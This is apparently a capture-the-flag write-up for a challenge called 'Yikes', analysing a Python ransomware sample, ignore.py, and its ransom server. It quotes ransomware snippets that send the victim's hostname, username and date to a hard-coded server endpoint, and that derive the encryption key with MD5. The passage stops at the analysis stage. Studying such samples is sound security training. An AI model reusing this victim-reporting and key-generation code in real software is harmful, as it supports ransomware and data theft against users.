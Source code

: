 # Yikes
> Little Timmy needs your help again! Looks like he accidentally downloaded some ransomware when he was looking for a way to get free robux. He really needs his math homework if you can help him out? Oh, and he also told me that one of his friends tried the same thing and has a really important video he needs to recover. I trust you'll be able to help them both! Hopefully the ransomware group doesn't really know what they're doing?

## First Look/Analysis

We have access to the ransomware python file, `ignore.py`, it is originally a hidden folder `.igonor.py` but i renamed it to `ignore.py` to make it easier to work with.

In the chal file we also have a ransom.txt file that contains some information. 

first up is a link "https://yikes.ctf-league.osusec.org/ransom/?id=3" to go to if we want to get Timmies homework back, and on the site it just tells us to pay up. 

Looking further into the `ignore.py` file we can see that it encodes everything and sends the encoded data to the server. 

```python
    victimData = {
        "hostname": hostname,
        "username": username,
        "time": time,
    }
    victimEnc = urllib.parse.urlencode(victimData).encode("utf-8")
    keyrRq = urllib.request.Request(baseURl + "/victim", data=victimEnc)
    keyrsp = urllib.request.urlopen(keyrRq)
```

here we can see it takes the data, the hostname, the username and the time, along with the users encrypted data and sends it to their server.

the server address is hard coded into the code, along with how the hostname/username is retrieved

we also see the key used to encrypt the data is generated using the following code and information listed above

```python
baseURl = "https://yikes.ctf-league.osusec.org"
hostname= platform.node()
username=getpass.getuser()
randomThing = randint(1, 1333337)
time =datetime.date.today().isoformat()
secretkey = md5((hostname + str(randomThing) + time).encode()).digest()
```

combining all these bits of information we can see that Timmies "id" used on their site is 3, and they store their victims user data on their server, following this address: `https://yikes.ctf-league.osusec.org/victim`

we also know that they store the hostname, username, and time of the victim with this data, which will help with finding a key later on.
